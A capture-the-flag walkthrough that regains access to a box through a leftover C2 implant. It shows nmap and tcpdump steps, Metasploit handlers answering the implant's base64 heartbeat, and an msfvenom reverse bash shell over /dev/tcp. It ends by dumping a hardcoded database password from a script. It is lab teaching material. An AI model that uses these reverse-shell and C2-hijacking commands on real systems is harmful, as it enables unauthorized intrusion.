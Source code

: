 # Forgotten implant

Forgotten implant. Quite an original box on how to get into an already hacked device where the C2 implant was not removed.

With the help of the forgotten implant you must gain entry again.


## Getting in

As always, start with nmap

nmap -sC -sV -T5 -p- ${IP} -vv -oN box

But it does not find any open ports.

Ok, maybe udp? That matters sometimes. But since udp scan are SLOW as fok, better pass --top-ports 1024 to nmap.

nmap -sC -sV -sU -T5 --top-ports 1024 -vv -oN box ${IP}

blabla
Host is up, received reset ttl 63 (0.032s latency).
Skipping host 10.10.243.126 due to host timeout
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done -- 1 IP address (1 host up) scanned in 905.67 seconds

Nothing!

ok thats new, but as the hint says

"Your port scan is not misleading you"

this must be by design.

Knowing how C2 systems work, then it is only logical that the machine is sending data out and not in.
It's probably sending a beacon, asking the server what to do.

So let's see what tcpdump has to say on the vpn's network interface. tun0

```
sudo tcpdump -i tun0
```

17:42:04.029478 IP ${LIP}.81 > 10.10.169.196.43862: Flags [R.], seq 0, ack 3660637020, win 0, length 0

So it seems that something is sending packets to port 81. okay...

then lets see what by starting netcat.

```
nc -lnvp 81 
```

After some seconds an http request comes in written with python's requests package.

```
GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDhUMTU6NDQ6MDEuODkyOTY5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

it's sending a beacon to /heartbeat with base64.

the decoded base64 means.

```
{"systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

Aha! It's querying for commands/jobs to do.

Well then, then there are a few options. 

1. We can write a server with a heartbeat endpoint.
2. We can use a real C2 like metasploit

Let's go for option 2, since this box is all about C2.

So fire up metasploit. metasploit -q.
And start catching the beacon with payload meterpreter/reverse_http.

```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_http

set LPORT 81
set LHOST tun0

run

[*] Started HTTP reverse handler
```

Soon the requests come in and metasploit prints them.

[*] http:/IP:81 handling request from 10.10.243.126; (UUID: g6wztzlc) Unknown request to /heartbeat/eyJ0aW1lIjogIjIwMjMtMDctMzBUMDc6MDQ6MDEuODcyNTQ2IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAiY2F0IHVzZXIudHh0IiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogIlRITXs5MDJlOGU4YjFmNDlkZmViNjc4ZTQxOTkzNWJlMjNlZn1cbiJ9LCAic3VjY2VzcyI6IGZhbHNlfQ== with UA 'python-requests/2.22.0'

So we need to send messages back and with the reverse_http payload all http headers and body and what not can be manipulated.
"show advanced" in meterpreter and there we have HttpUnknownRequestResponse. That's exactly what metasploit is saying! unknown request.

First try to get command execution by base64 encoding a simple ls.

```
{"job_id": 0, "cmd": "ls"}
```

Cyberchef is a handy tool for base64 encoding, base64 clutters up your history IMO.

So:
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIn0=

And wait. The beacon comes back with.....

"Unknown request to /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInByb2R1Y3RzLnB5XG51c2VyLnR4dFxuIn0="

and that base64 string means....

"{"job_id": 0, "cmd": "ls", "success": true, "result": "products.py\nuser.txt\n"}"

We have command execution!

So yeah lets generate a shell with msfvenom and encode it inside the json.

```
msfvenom -p cmd/unix/reverse_bash lhost=tun0 lport=10666 R
```

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 70 bytes
bash -c '0<&94-;exec 94<>/dev/tcp/IP/10666;sh <&94 >&94 2>&94'

So encoded to base64 we get.

```
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImJhc2ggLWMgJzA8JjEyNy07ZXhlYyAxMjc8Pi9kZXYvdGNwLzEwLjkuNi4xNzkvMTA2NjY7c2ggPCYxMjcgPiYxMjcgMj4mMTI3JyJ9
```

run

start another metasploit and set the payload to cmd/unix/reverse_bash

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp and the correct port and interface
msf6 exploit(multi/handler) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash

run
```
Then run the http payload and wait.
If you get "Soon we get "[*] Accepted the first client connection..." you will have to try again.
No real shell is connected. After some tries a real session will be opened and then we have shell from the beacon.

type 'shell' in metasploit to upgrade to proper bash shell.

from there it's time to go for root, that is covered in other writeups. I tried with metasploit's post exploitation modules.

```
ada@forgottenimplant:~$ cat products.py
cat products.py
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='s4Ucbrme'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')

    mysql -h localhost -u app -p
mysql -h localhost -u app -p
Enter password: s4...
```
